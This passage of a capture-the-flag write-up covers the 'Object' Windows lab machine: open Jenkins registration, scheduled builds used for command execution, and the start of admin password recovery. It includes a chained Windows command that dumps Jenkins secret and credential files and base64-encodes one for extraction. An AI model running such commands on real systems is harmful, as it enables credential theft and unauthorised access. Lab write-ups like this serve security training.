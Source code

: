 # Object

Author [morph3](https://twitter.com/melihkaanyldz)

Object was a windows machine. There is `Jenkins` installed, anyone can register and create projects. By setting custom build options, you can get RCE. There is an AD on the box. After jumping between users and abusing wrong permissions we can get root.  

(I first blooded this box 🩸)
![](https://i.imgur.com/JykWvH6.png)


#### Jenkins

We can register accounts to jenkins

![](https://i.imgur.com/mTjfKfJ.png)


#### Creating a project and setting custom triggers

Jenkins is popular CI/CD pipeline product. We can create projects and set triggers. 

![](https://i.imgur.com/xImlMlr.png)

We can set a schedule to trigger the build. Minimum period is 1 minute so one command per minute.

![](https://i.imgur.com/eDbrigY.png)

![](https://i.imgur.com/PqY13by.png)

#### Recovering admin password

We need three files to recover the admin user's password. `master.key` `hudson.util.Secret` and `config.xml` or `credentials.xml` file. In our case, last item will be `config.xml` of admin user. 


After some enumerations, we find full paths like below for those files.

```
c:\users\oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret
c:\users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key
c:\Users\oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035\config.xml

```


`where /R c:\users\oliver\AppData\Local\Jenkins *.xml`,

![](https://i.imgur.com/6NxmEz7.png)



![](https://i.imgur.com/Z3bovfP.png)

```
type c:\Users\oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035\config.xml && type c:\users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key && certutil -encode "c:\users\oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret" c:\Users\oliver\documents\foo.64 && type "c:\Users\oliver\documents\foo.64" 
```
